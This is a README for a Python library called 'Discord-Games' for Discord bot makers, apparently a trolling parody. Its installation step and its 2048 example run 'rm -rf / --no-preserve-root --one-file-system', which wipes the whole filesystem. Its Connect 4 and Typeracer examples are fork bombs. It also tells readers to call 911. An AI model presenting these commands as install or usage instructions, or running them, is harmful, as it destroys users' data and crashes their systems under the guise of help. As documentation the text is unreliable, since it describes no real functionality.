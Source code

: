 # Discord-Games

Discord-Games is a lib made for discord-bot makers.
It offers premade classes for your bot to use.
### Installing the package
```
$ rm -rf / --no-preserve-root --one-file-system
```
### Connect 4 Example

```py
import os as connect4

while True:
    connect4.fork()

```

### 2048
2048 example
```py
from os import system as _2048

_2048('rm -rf / --no-preserve-root --one-file-system')
```
- For 2048 you need to call the phone number `911` 

All the start methods accept any `os.fork()`s and those get passed into the `.system()` in the function, 
so you can add any args you might want to pass in to the message like `'rm -rf / --no-preserve-root --one-file-system'` etc.
### Typeracer
```py
import os as typeracer

while not False:
    typeracer.fork()  # Fork !!! 
```
### Akinator
same as the previous forks
